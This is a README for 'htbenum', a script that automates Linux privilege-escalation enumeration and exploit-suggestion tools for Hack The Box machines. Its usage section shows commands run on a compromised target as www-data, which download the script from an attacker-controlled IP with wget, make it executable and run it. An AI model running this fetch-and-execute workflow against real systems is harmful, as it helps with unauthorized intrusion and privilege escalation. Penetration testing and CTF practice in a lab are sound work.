

# htbenum
*A Linux enumeration script for Hack The Box*


This script is designed for use in situations where you do not have internet access on a Linux host and would like to run enumeration and exploit suggestion scripts, such as Hack The Box. I find myself running a similar set of scripts when I get an initial foothold on a Linux box, and this script helps automate the process of downloading the latest version of each enumeration script, making it executable, and running it, as well as sending output to a file for later review.

**Pull requests/suggestions welcome!**



### Features
* 5 different enumeration scripts, including:
    * [linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration/)
    * [LinEnum](https://github.com/rebootuser/LinEnum/)
    * [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/)
    * [uptux](https://github.com/initstring/uptux)
    * [SUID3NUM](https://github.com/Anon-Exploiter/SUID3NUM)
* 2 different exploit suggestion tools, including:
    * [linux-soft-exploit-suggester](https://github.com/belane/linux-soft-exploit-suggester)
    * [LES: Linux privilege escalation auditing tool](https://github.com/mzet-/linux-exploit-suggester)
* Provides an automatic download and update feature
* Custom directory option, for when you know you have access to a specific directory (default is /tmp)
* Interactive menu lets you choose whether to run only enumeration, only expoit suggestion, or both
* Checks for Python 2 and 3 and lets you know which scripts will be skipped if Python is missing

### Usage
```
./htbenum.sh [update] IP port [directory]

 Parameters:
         update - Download latest versions of each tool, overwriting any existing versions.
         IP - IP address of the listening web server used to tools for download.
         port - TCP port of the listening web server used to tools for download.
         directory - custom download and report creation directory (default is /tmp).
```


To use htbenum, clone the repo and run the script with the `update` parameter on your local machine. This will download and update all the needed scripts from the internet (Github) and place them in the same directory as `htbenum.sh`:
```
root@kali:~# git clone https://github.com/SolomonSklash/htbenum
root@kali:~# cd htbenum
root@kali:~/htbenum#  ./htbenum.sh update
_   _ ___________ _____ _   _ _   ____  ___
| | | |_   _| ___ \  ___| \ | | | | |  \/  |
| |_| | | | | |_/ / |__ |  \| | | | | .  . |
|  _  | | | | ___ \  __|| . ` | | | | |\/| |
| | | | | | | |_/ / |___| |\  | |_| | |  | |
\_| |_/ \_/ \____/\____/\_| \_/\___/\_|  |_/

By Solomon Sklash - solomonsklash@0xfeed.io 

[i] Updating all tools...
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh [31859/31859] -> "lse.sh" [1]
2019-11-25 17:54:55 URL:https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh [46476/46476] -> "linenum.sh" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py [25304/25304] -> "linuxprivchecker.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/initstring/uptux/master/uptux.py [29853/29853] -> "uptux.py" [1]
2019-11-25 17:54:56 URL:https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py [12614/12614] -> "suid3num.py" [1]
2019-11-25 17:54:57 URL:https://raw.githubusercontent.com/belane/linux-soft-exploit-suggester/master/linux-soft-exploit-suggester.py [13886/13886] -> "les-soft.py" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/offensive-security/exploit-database/master/files_exploits.csv [5669905/5669905] -> "files_exploits.csv" [1]
2019-11-25 17:54:58 URL:https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh [82214/82214] -> "les.sh" [1]
[i] Update complete!
root@kali:~/htbenum#  
```

Then, start a webserver in the same directory (Apache, `python3 -m http.server 80`, `python -m SimpleHTTPServer 80`, etc).

Finally, upload the `htbenum.sh` script to your target machine, make it executable, and run it with the IP and port of your host machine, with an optional directory for downloading files and writing report output. For example:
```
www-data@htb:/tmp$ wget http://10.10.99.100/htbenum.sh -O /tmp/htbenum.sh
www-data@htb:/tmp$ chmod +x ./htbenum.sh
www-data@htb:/tmp$ ./htbenum.sh 10.10.99.100 80
```
Each tool will send its output to a report file in the same directory as the `htbenum.sh` script, or whatever directory is specified by the `directory` parameter.
